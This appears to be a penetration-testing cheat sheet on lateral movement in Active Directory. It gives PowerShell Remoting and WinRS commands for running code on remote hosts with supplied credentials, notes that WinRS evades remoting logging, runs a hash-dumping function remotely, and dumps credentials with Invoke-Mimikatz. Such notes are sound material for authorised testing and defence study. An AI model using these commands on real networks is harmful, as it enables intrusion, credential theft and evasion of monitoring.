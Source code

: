 ## Lateral Movement on Active Directory 


### PowerShell Remoting
---
Uses TCP-5985. T
```powershell
# Check computers where PS Remoting can be used
C:> . .\Find-PSRemotingLocalAdminAccess.ps1
C:> Find-PSRemotingLocalAdminAccess
```

- **Enable PowerShell Remoting:** From [M$ Documentation](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/enable-psremoting?view=powershell-7.2), creates rules on computer firewall to allow remote connections. 
```powershell
C:> Enable-PSRemoting 
```
- **Create Remote Session:** [M$ Documented](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/new-pssession?view=powershell-7.2)
```powershell
# Create a Session in Local Computer
C:> New-PSSession

# Create Session on Remote Computer
C:> $remote_computer = New-PSSesion -ComputerName <computer>

# Create Session on Multiple Computers
C:> $s1, $s2, $s3 = New-PSSession -ComputerName Server01,Server02,Server03
```
- **Entering into Existing PSSession**
```powershell
# A Completelly New Session to Computer
C:> Enter-PSSession -ComputerName <computer>

# A session created previously with New-PSSession
C:> $remote_computer = New-PSSesion -ComputerName <computer>
C:> Enter-PSSession -Session $remote_computer
```
- **Remote Execution**
```powershell
# Remote Execution With Credentials
c:> $SecPassword = ConvertTo-SecureString '<password>' -AsPlainText -Force
C:> $Cred = New-Object System.Management.Automation.PSCredential('<domain>\<user>', $SecPassword)
C:> Invoke-Command -ComputerName <computer> -Credential $Cred -ScriptBlock {whoami}

# Run Local Script in Remote Computer
C:> Invoke-Command -FilePath c:\scripts\test.ps1 -ComputerName <computer>
C:> Invoke-Command -FilePath c:\scripts\test.ps1 -ComputerName (Get-Content <list_of_servers>)

# Run Command (Script Block) on Remote Computer
C:> Invoke-Command -ComputerName <host> -Credential <domain>\<user> -ScriptBlock {whoami;hostname}
C:> Invoke-Command -Scriptblock {Get-Process} -ComputerName (Get-Content <list_of_servers>)

# Execute Locally Loaded Function in Remote Computer
C:> Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName <host>

# Persistent Connection, Series of Commands Sharing Data
C:> $s = New-PSSession -ComputerName <computer>                             # Without this, 2 lines below wouldn't share data on $s
C:> Invoke-Command -Session $s -ScriptBlock {$p = Get-Process PowerShell}
C:> Invoke-Command -Session $s -ScriptBlock {$p.VirtualMemorySize}          # $sp is from previous command

```

### WinRS
---
```powershell
# Check computers where WinRS can be used
C:> . .\Find-PSRemotingLocalAdminAccess.ps1
C:> Find-PSRemotingLocalAdminAccess
```
Uses same port as PSRemoting, and evades Remoting Logging.
- **Execute Remote Command**
```powershell
# Use `cmd`as command to get a shell
C:> winrs -remote:<computer> -u:<domain>\<user> -p:<password> <command>
```

### MimiKatz PowerShell Port
---
Requires Local Admin Privileges on computer where is run.
```powershell
C:> . .\Invoke-Mimikatz.ps1
```
- **Dump Credentials on Local Machine**
```powershell
C:> Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```
